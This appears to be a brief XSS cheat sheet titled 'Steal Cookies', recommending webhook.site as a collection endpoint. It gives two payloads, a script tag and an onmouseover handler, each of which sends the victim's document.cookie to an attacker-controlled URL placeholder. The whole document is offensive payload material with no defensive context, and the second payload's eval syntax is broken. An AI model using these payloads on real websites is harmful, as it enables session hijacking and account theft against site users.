 **webhook.site is useful**
# Steal Cookies
## Basic
```javascript
<script>document.write('<img src="[URL]?c='+document.cookie+'"/>'); </script>
```

## Onmouseover
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```

